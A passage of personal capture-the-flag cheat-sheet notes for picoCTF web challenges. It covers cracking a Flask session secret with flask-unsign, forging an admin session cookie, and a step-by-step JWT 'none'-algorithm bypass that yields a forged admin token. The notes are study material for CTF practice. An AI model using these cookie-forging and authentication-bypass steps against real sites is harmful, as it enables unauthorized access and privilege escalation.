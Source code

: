         * `$ flask-unsign --decode --cookie 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZVeyiQ.bWA_2WeiTOts0OWM7Z0qaDhrFqs'`
            * This decodes the cookie and prints it in the session cookie structure
        * `$ flask-unsign --unsign --server 'http://mercury.picoctf.net:65344/' --wordlist wordlist.txt`
            * This gets the secret key
            * The `--server` value is the url of the web site/server
            * The `--wordlist` value contains a new line separated list of the possible cookie values for the website(?) (the possible values could be found in a "server.py" script)
* Encoding flask session cookies
    * Use [this](https://github.com/noraj/flask-session-cookie-manager) tool
    * Usage:
        * `$ git clone https://github.com/noraj/flask-session-cookie-manager.git && cd flask-session-cookie-manager`
            * This installs the tool
        * `$ python -m venv venv`
            * This creates the virtual environment
        * `$ source venv/bin/activate`
            * This makes your terminal enter the virtual environment
        * `$ python setup.py install`
            * This setups the virutal environment(?)
        * `$ flask_session_cookie_manager3.py encode -s 'peanut butter' -t "{'very_auth':'admin'}"`
            * `-s` is the secret key found with `flask-unsign`
            * `-t` is your custom cookie in its session cookie structure
* Accessing errors on web server: (this could be wrong/unhelpful in some way)
    * Errors are stored in files on web servers and can be accessed via the url + ?error= + filename_without_extension
        * e.g. https://notepad.mars.picoctf.net/?error=bad_content will return bad_content.html
* JSON Web Tokens (JWT)
    * They provide a compact and self-contained way for securely transmitting information between parties as a JSON object.
    * JWT cookies can be found here in the `Inspect` tools and will always have a `name` field containing "`token`":
    ![They can be found here](JWT_cheat_sheet.png)
    * JWT cookies always have two `.` separators
        * e.g. `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzAxMzg0Mjk4MTM1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwLjE1OyBydjoxMjAuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMjAuMCIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzAxMzg0Mjk4fQ.WRYkuNljVpKYk7b4q1CmPahMb3Mc_iGaDoGWvbSM2jU`
    * Use https://jwt.io/ to encode/decode JWT cookies
    * [JWT none algorithm vulnerability](https://portswigger.net/kb/issues/00200901_jwt-none-algorithm-supported)
        * How to exploit:
            * Login to site as normal user
            * Generate new header (make sure to remove any `=` at the end of the output): `$ echo -n '{"typ":"JWT","alg":"none"}' | base64`
            * Copy the prexisting JWT cookie from the `Inspect` tools and paste it in https://jwt.io/
            * Edit the payload in https://jwt.io/ to have `"role": "admin"`
            * Merge the new header and new payload, separate them with a `.`, and add a `.` to the end: `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjc0ODEwNjQ1MDIyLCJhZ2VudCI6InRlc3QxMjMiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE1NzMzNTgzOTZ9.`
            * Replace prexisting JWT cookie with the JWT cookie you just created and refresh the page
